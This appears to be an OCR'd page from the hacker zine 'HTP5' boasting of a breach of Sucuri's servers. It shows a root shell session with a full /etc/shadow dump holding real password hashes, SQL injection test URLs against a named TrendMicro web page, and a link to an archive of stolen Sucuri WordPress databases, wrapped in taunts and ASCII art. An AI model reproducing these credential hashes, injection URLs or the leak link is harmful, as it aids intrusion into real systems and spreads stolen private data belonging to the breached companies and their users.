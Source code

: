 "Sucuri is a company that offers a security service that detects unauthorized changes to network (cloud) assets, including web sites, DNS, Whois records, SSL certificates and others. It is also heavily used as an early warning system to detect Malware, Spam and other security issues on web sites and DNS hijacking." 
                                                                                
Sucuri, why didn't you announce that you got owned? Pretty useless warning system, if you ask us.                                                          

```                                                                                
[root@sucuri www]# uname -a                                                     
Linux sucuri.net 2.6.39.1-linode34 #1 SMP Tue Jun 21 10:29:24 EDT 2011 i686 i686
 i386 GNU/Linux                                                                 
```                                                                               
2001, here we come                                                              
```
[root@sucuri www]# cat /etc/shadow                                              
root:iFvywDsrRwmjI:15755:0:99999:7:::                                           
bin:*:14746:0:99999:7:::                                                        
daemon:*:14746:0:99999:7:::                                                     
adm:*:14746:0:99999:7:::                                                        
lp:*:14746:0:99999:7:::                                                         
sync:*:14746:0:99999:7:::                                                       
shutdown:*:14746:0:99999:7:::                                                   
halt:*:14746:0:99999:7:::                                                       
mail:*:14746:0:99999:7:::                                                       
news:*:14746:0:99999:7:::                                                       
uucp:*:14746:0:99999:7:::                                                       
operator:*:14746:0:99999:7:::                                                   
games:*:14746:0:99999:7:::                                                      
gopher:*:14746:0:99999:7:::                                                     
ftp:*:14746:0:99999:7:::                                                        
nobody:*:14746:0:99999:7:::                                                     
vcsa:!!:14746:0:99999:7:::                                                      
ntp:!!:14746::::::                                                              
sshd:!!:14746::::::                                                             
dre:mAuUxgVOcOeAE:15678:0:99999:7:::                                            
apache:!!:14898::::::                                                           
mysql:!!:14898::::::                                                            
mailnull:!!:14946::::::                                                         
smmsp:!!:14946::::::                                                            
ossec:!!:15461:0:99999:7:::                
```                                     
^ OSSEC? Here, We're sure you'll get a kick out of this:                        
                                                                                
TrendMicro (owns OSSEC) DB access via SQLi:                                     
- http://www.trendmicro.com/download/eula/agreement.asp?id=40993%20and%205=5      
- http://www.trendmicro.com/download/eula/agreement.asp?id=40993%20and%205=4      
                                                                                
Included in this segment of HTP5 are the databases of Sucuri's primary site,    
though labs.sucuri.net and the rest of their VPS's were also compromised.       
```                                                                                
▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
```
~ http://mirror.hack-the-planet.tv/HTP-5/Sucuri/dbs.tgz                         
```
|- 2.1MB | Sucuri WP DB's                                                       
▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀
"GREGORY D. EVANS, BABY! NUMBA 1!"                                              
                                                                                
                              ░░░▒▒▒▒░░░░░░░                                    
                        ░░▒▒▒▒▓▓▓▒▒▒▒▒▒▒▒▒▒▒▒▒▒░░                               
                     ░▒▒▓▓▓▓▒▒▒▒▒▒▒▒▒▒▒▒▓▒▒▒▒▒▒▒▒▒▒░░                           
                   ░▒▓▓▓▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▓▒▒▒▒▒▒▒▒▒░                         
                ░▒▒▓▓▓▓▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▓▓▒▒▒▒▒▓▓▒▒▒▒▒                       
               ▒▓▓▓▓▓▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▓▓▓▒▒▒░                     
              ▒▒▒▒▒▒▒▒▒▒▒░░░░░░░░░░░░░▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▓▓▓▒▒▒▒                    
             ▒▒▒▒▒▒▒▒░░░░░       ░░░░░░░░▒▒▒▒▒▒▒▒▒▒▒▒▒▓▓▓▓▓▒▒                   
            ▒▒▒▒▒▒▒░░░░░░          ░░░░░░░▒▒▒▒▒▒▒▒▒▒▒▒▓▓▓▓▓▓▓▒                  
```